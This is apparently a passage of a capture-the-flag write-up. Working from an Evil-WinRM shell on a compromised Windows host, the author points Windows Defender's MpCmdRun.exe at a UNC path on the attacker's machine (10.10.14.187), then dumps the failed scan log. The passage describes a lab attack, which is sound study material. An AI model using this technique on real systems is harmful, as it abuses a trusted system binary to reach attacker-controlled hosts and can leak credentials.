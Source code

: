 The example on the page did not work because the specified version of Windows Defender was different, but I found two newer versions in the `/platform` folder. I hoped that one of these would still be vulnerable to this issue. 

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> ./MpCmdRun.exe -Scan -ScanType 3 -file \\10.10.14.187\test
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> type C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log
-------------------------------------------------------------------------------------

MpCmdRun: Command Line: "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe" -Scan -ScanType 3 -File \\10.10.14.187:8081\file.txt

 Start Time:  Thu  Apr  01  2021 22:25:24

MpEnsureProcessMitigationPolicy: hr = 0x0

Starting RunCommandScan.

INFO: ScheduleJob is not set. Skipping signature update.

Scanning path as file: \\10.10.14.187:8081\file.txt.

Start: MpScan(MP_FEATURE_SUPPORTED, dwOptions=16385, path \\10.10.14.187:8081\file.txt, DisableRemediation = 0, BootSectorScan = 0, Timeout in days = 1)

MpScan() started

Warning: MpScan() encounter errror. hr = 0x80508023

MpScan() was completed

ERROR: MpScan(dwOptions=16385) Completion Failed 80508023

MpCmdRun.exe: hr = 0x80508023.

MpCmdRun: End Time:  Thu  Apr  01  2021 22:25:24

-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------

MpCmdRun: Command Line: "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe" -h

 Start Time:  Thu  Apr  01  2021 22:28:13



MpEnsureProcessMitigationPolicy: hr = 0x0

MpCmdRun: End Time:  Thu  Apr  01  2021 22:28:13

-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------

MpCmdRun: Command Line: "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe" -Scan -ScanType 3 -Path \\10.10.14.187\

```